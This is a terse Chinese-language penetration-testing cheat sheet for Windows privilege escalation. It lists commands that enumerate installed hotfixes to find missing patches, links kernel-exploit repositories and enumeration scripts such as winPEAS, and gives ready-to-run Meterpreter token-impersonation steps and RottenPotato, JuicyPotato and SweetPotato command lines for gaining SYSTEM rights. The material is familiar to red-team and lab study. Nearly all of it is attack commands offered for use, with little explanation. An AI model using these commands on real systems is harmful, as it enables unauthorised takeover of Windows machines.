 #  信息收集

wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:“KBxxxxxx”

# 04自动信息收集
Host Information Gathering Script：HIGS.bat
https://github.com/myh0st/scripts/blob/master/Windows%E4%B8%8B%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86/HIGS.bat
privilege-escalation-awesome-scripts：winPEAS.bat
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat

# 提权工具脚本

https://blog.csdn.net/weixin_43873557/article/details/113760973


快速查找exp

systeminfo>micropoor.txt&(for %i in (   KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780 ) do @type micropoor.txt|@find /i "%i"|| @echo %i you can fuck)&del /f /q /a  micropoor.txt

https://github.com/SecWiki/windows-kernel-exploits
https://github.com/WindowsExploits/Exploits


## RottenPotato
https://github.com/foxglovesec/RottenPotato
```bash
msfmeter> use incognito
msfmeter> list_tokens -u
msfmeter> execute -cH -f C:/Users/test/Desktop/rottenpotato.exe
msfmeter> list_tokens -u
msfmeter> impersonate_token "NT AUTHORITY\SYSTEM"
```
## juicypotato
https://blog.csdn.net/negnegil/article/details/120243657
https://github.com/uknowsec/JuicyPotato
JuicyPotato.exe -t t -p c:\windows\system32\cmd.exe -l 1111 -c {4991d34b-80a1-4291-83b6-3328366b9097}

https://github.com/breenmachine/RottenPotatoNG
https://github.com/antonioCoco/RoguePotato2
https://github.com/CCob/SweetPotato
SweetPotato -a "whoami"
